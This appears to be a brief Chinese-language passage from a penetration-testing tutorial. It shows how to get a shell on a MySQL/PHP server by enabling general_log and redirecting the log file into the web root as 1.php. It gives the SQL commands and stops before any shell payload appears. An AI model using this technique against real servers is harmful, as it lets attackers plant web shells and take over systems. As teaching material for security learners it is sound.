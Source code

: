 general_log显示off，表示日志没有开启



当开启general时，所执行的sql语句都会出现在stu1.log文件中。那么，如果修改generallogfile的值，那么所执行的sql语句就会对应生成对应的文件中，进而getshell。

开启日志

SET GLOBAL general_log='ON';

![img](assets/1654255284120-08f6c710-439d-459c-b7ee-a031c1a2d692.png)

指定日志文件

set global general_log_file = "C:/phpStudy/www/1.php";

![img](assets/1654255348360-119a5423-8260-4d95-8ba4-2d2431fe5e20.png)

再次查看日志

![img](assets/1654255402486-42d489b1-8891-4ec1-aa0d-1e8256df437f.png)
